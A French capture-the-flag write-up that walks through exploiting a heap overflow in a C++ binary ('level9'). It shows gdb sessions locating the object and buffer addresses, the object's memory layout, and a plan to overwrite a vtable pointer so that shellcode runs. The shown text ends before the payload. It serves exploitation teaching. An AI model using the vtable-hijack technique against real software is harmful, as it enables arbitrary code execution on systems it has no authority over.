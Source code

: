 ### Stratégie d'exploitation
On a dans la méthode `setAnnotation` un `memcpy` sans vérification de taille, ce qui nous permet de déborder et d'écrire dans la mémoire. Et juste après on a un appel à une fonction virtuelle. On peut corrompre l'adresse de la fonction virtuelle dans la vtable pour exécuter du shell code à la place d'exécuter la fonction définie dans la classe mère.

## Découverte des adresses

### Trouver l'adresse de l'objet N
On va commencer par chercher l'adresse `this` (la classe N) juste après le malloc (l'appel à `new`) pour avoir son adresse dans la mémoire.

```bash
gdb ./level9
(gdb) b *0x0804861c
(gdb) run AAAA
(gdb) i registers
eax            0x804a008    134520840
```

Donc on sait maintenant que la classe N a été enregistrée à l'adresse `0x804a008`.

### Localiser les données passées en paramètre
On va donc voir à partir d'où sont stockées les données passées en param :

```bash
gdb ./level9
(gdb) run AAAA  # (A = 0x41 en hexa donc on cherche les 41)
(gdb) x/10x 0x804a008
0x804a008:    0x08048848    0x41414141    0x00000000    0x00000000
0x804a018:    0x00000000    0x00000000    0x00000000    0x00000000
0x804a028:    0x00000000    0x00000000
```

Donc on commence à écrire 4 bits après `0x804a008` :
**`0x804a008 + 4 = 0x804a00c`**

## Structure mémoire

### Rappel de la structure de l'objet N
```cpp
class N {
private:
    void **vtable;        // 4 bytes
    char annotation[100]; // 100 bytes  
    int value;           // 4 bytes
    ...
}
```

### Layout mémoire des objets
Dans le main on avait :
```cpp
N *obj1 = new N(5);
N *obj2 = new N(6);
```
